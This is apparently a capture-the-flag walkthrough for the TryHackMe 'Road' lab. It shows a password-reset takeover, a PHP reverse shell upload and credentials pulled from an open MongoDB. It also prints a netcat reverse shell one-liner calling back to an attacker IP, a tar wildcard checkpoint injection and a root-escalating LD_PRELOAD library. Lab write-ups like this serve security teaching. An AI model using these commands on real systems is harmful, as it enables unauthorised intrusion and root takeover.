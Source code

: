 ```yaml
---
date: 2025-02-13
categories: [CTF, THM]
title: "THM - Road"
tags: ['gobuster', 'linux', 'linux setuid', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell']

description: "Road - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Road

NMAP

```bash
sudo nmap 10.10.79.100 -A
```

![image1](../resources/ed395c99dd32449aa81a2f2467a8a6c4.png)

- Directory scan:

```bash
gobuster dir -u http://10.10.79.100 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image2](../resources/82e700da08674d67895a5a588727f6e6.png)

- Registered an account and logged in  `http://10.10.54.102/v2/admin/login.html`


![image3](../resources/6e3779b9535040c7b71c85d7ddb77f1a.png)

- On the Profile page we can upload a file (but only admins can atm)

![image4](../resources/d8587e7e31214b9da68140be037cb31d.png)

- But found an admin email:
**admin@sky.thm**

- The only other button that works is the ResetUser button

![image5](../resources/9b034d03f1384e24820ec1ef12a29442.png)

- But looks like we can only reset our own password

- Open Burp and see if we can intercept the traffic

![image6](../resources/fc26e2830a574013925477485289ed05.png)


![image7](../resources/c1b982308e6049939558a4f40141e90d.png)

- Change the email to **admin@sky.thm** and send


![image8](../resources/86256cf6a2f04693a38699c40914103e.png)

- Got a 200 response code OK


![image9](../resources/049e417e9a6e44a0bf0acd3eb52a080c.png)

- Log in with admin@sky.thm


![image10](../resources/9d443c901bb4461f8bc8b9e6fd451bdd.png)

- If we now go to Profile and scroll to the bottom - we can upload a file


![image11](../resources/e1c3f363b5804e9b9ca5ba8465a10413.png)

- I jumped straight in with a **php_reverse_shell.php** - and uploaded it  
  It didn't give an error but didn't say successful either

- Set up nc:

```bash
rlwrap -cAr nc -lvnp 4445

```
- Inspecting the current profile picture

![image12](../resources/66bac46272ae427ba0e01bfbe7cd5333.png)

and trying to use that path to get a shell back - Failed

- Inspecting the profile page's source - showed a different path, that's been commented out
**/v2/profileimages/**


![image13](../resources/5d87c6111ad54c8db42d403728f7b492.png)

- Using that path  `http://10.10.54.102/v2/profileimages/php_reverse_shell.php`

- Got a shell

![image14](../resources/e40efe44a9e549338f837022047a55f2.png)

- Upgrade shell:

```bash
# In reverse shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

#Ctrl-Z

# In Kali
stty raw -echo
fg

# In reverse shell
export SHELL=bash
export TERM=xterm
stty cols 236 rows 59
alias ls='ls --color=auto'
reset
clear

#ENTER
#ENTER
```

- cat user flag

- Check what users are on the server:
```bash
getent passwd

```

![image15](../resources/c1719ba2e2dd48ee849222095bd72f18.png)

```bash
ss -tulpn

```

![image16](../resources/ed8f051894624a3ca803f51078778e05.png)

- Tried connecting to mysql

![image17](../resources/f06981d54c8d4fd3a2d371aeed1add92.png)

- Connected to mongo with no credentials

![image18](../resources/08020e0dd4cd44469b418fadb3ef6d35.png)


![image19](../resources/4b74c435bdd749fea81448e68cac8d93.png)


![image20](../resources/295fd00cfb6a4f059eb941a9a18be853.png)

- Got **webdeveloper : BahamasChapp123!@#**

- SSH with creds:

```bash
ssh webdeveloper@10.10.54.102

sudo -l

```

![image21](../resources/2306faba66b740b59bec38770b6ccd75.png)

```bash
id

```

![image22](../resources/47c5cce869a14a2794e5aae5f6f47d0d.png)

Tried sudo su as webdeveloper is in sudo group


![image23](../resources/c9e70ac1e0204bd0aef10ed58122caac.png)

sky_backup_utility is owned by root


![image24](../resources/0d095f391e9245b6a29a19885cea129e.png)

```bash
strings /usr/bin/sky_backup_utility

```

![image25](../resources/7081ddeac48341cca1ada3d1036fe9ed.png)

```bash
tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/
```

We can see that this is a backup script ELF file. So it must run regularly.

It backs up all of the contents in /var/www/html/**\*** to /root/.backup/sky-backup.tar.gz

We can exploit the wildcard **\*** to priv esc

- On KALI - Create a raw netcat reverse shell:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=10.8.24.66 lport=4444 R

```
- Copy the raw shell:

```bash
mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0</tmp/mzdqoeb | /bin/sh >/tmp/mzdqoeb 2>&1; rm /tmp/mzdqoeb

```
- Set up nc listener

```bash
rlwrap -cAr nc -lvnp 4444

```
- Go back to www-data shell

```bash
cd /var/www/html/

echo "mkfifo /tmp/mzdqoeb; nc 10.8.24.66 4444 0\</tmp/mzdqoeb \| /bin/sh \>/tmp/mzdqoeb 2\>&1; rm /tmp/mzdqoeb" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

tar cf archive.tar *

```

- Got a shell - but it's www-data - tried with webdeveloper as well but didn't get root

![image26](../resources/767d8ca5beb04d6db74420f98a4c866e.png)

- Looking at sudo -l again


![image27](../resources/daf51bfc2dfe458f9ec7de2add84f7e4.png)

- **env_keep+=LD_PRELOAD** is set
- And we can run a binary as sudo (/usr/bin/sky_backup_utility)

<https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/>


![image28](../resources/ecf14855710946f49d6dc536accc5b2e.png)


![image29](../resources/7dcd27de6359416e827c072e71770d72.png)

- Exploit LD_PRELOAD:
  - On webdeveloper shell

```bash
cd /tmp
nano shell.c
```

```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD"); // Prevent recursion
    setgid(0);              // Set group ID to root
    setuid(0);              // Set user ID to root
    system("/bin/sh");      // Spawn a root shell
}
```

![image30](../resources/7383a540efea442fa0a9923e8931221b.png)

Save file

- Compile c file:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility  # Because we can execute /usr/bin/sky_backup_utility as root
```

- Got root shell

![image31](../resources/ea90e1f2f5674f818fcde6f56c1365cf.png)

```bash
cat root.txt

```